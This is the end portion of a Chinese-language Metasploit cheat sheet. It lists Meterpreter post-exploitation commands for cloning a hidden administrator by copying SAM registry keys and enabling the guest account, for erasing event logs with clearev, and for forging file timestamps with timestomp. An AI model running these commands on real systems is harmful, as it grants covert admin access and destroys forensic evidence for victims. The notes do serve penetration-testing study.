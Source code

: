 通过注册表复制克隆用户
```bash
reg enumkey -k HKLM\\sam\\sam\\domains\\account\\users
shell
net user guest /active:yes
reg copy HkLM\sam\sam\domains\account\users\000001f4 HkLM\sam\sam\domains\account\users\000001f5
```

---

### 痕迹清除

```bash
clearev     # 入侵痕迹擦除
```

**反电子取证**
```bash
timestomp -v secist.txt                     # 查看当前目标文件 MACE 时间.
timestomp -f c:\\AVScanner.ini secist.txt   # 将模板文件 MACE 时间,复制给当前文件
timestomp -v secist.txt
```

---

**Source & Reference**
- [给kali的Metasploit下添加一个新的exploit](https://blog.csdn.net/SilverMagic/article/details/40978081)
- [linux - Metasploit: Module database cache not built yet, using slow search](https://serverfault.com/questions/761672/metasploit-module-database-cache-not-built-yet-using-slow-search)
- [Nightly Installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers)
